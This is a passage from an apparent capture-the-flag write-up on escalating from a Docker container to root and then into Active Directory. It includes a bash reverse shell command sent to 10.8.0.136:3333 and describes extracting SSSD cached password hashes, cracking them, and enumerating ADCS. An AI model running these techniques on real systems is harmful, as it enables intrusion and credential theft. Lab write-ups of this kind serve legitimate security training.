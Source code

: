 <img src="https://i.imgur.com/MCSQFmX.png"/>

Running a bash reverse shell 

```bash
deepce.sh --exploit SOCK --command "/bin/bash -c 'bash -i >& /dev/tcp/10.8.0.136/3333 0>&1'"
```

<img src="https://i.imgur.com/FBfjyNy.png"/>

<img src="https://i.imgur.com/BAQU6jt.png"/>

I placed my ssh public key to login as root, this wasn't really necessary but I just wanted a proper shell

<img src="https://i.imgur.com/eat7kq5.png"/>

<img src="https://i.imgur.com/BTVgM44.png"/>

## Extracting cached credentials (SSSD creds)

From linpeas, we find that this machine is domain joined and cache credentials is enabled from `/etc/sssd/sssd.conf` , sssd is responsible for enabling the system to access authentication services such as active directory

<img src="https://i.imgur.com/qyi78db.png"/>

Linux systems joined with AD store Kerberos credentials locally in the credential cache file referred to as the `ccache`. By default sssd maintains a copy of cached credential in `/var/lib/sss/db` . 

<img src="https://i.imgur.com/oac6bCo.png"/>
With `tdbdump` we can read the contents of ldb cache file and we want to look for `cachedPassword`

<img src="https://i.imgur.com/wBRXCTD.png"/>
gabriel.stewart's sha512crypt hash can be cracked with either john or hashcat

<img src="https://i.imgur.com/QcrcVb6.png"/>

Gabriel is a part of `JUNIORADMINS` group which is further part of `REMOTE MANAGEMENT USERS`

<img src="https://i.imgur.com/wHEtOgL.png"/>
<img src="https://i.imgur.com/8K6eByj.png"/>

Again there's nothing that we could do from gabriel, no acls or any special privilege

<img src="https://i.imgur.com/xCSEWwr.png"/>

Running `certutil` this machine has ADCS installed

<img src="https://i.imgur.com/Hj5IgQj.png"/>

Certificate templates can be enumerated with certify but I'll be using the python version  `certipy` as it had support for ESC13 added https://github.com/ly4k/Certipy/pull/196
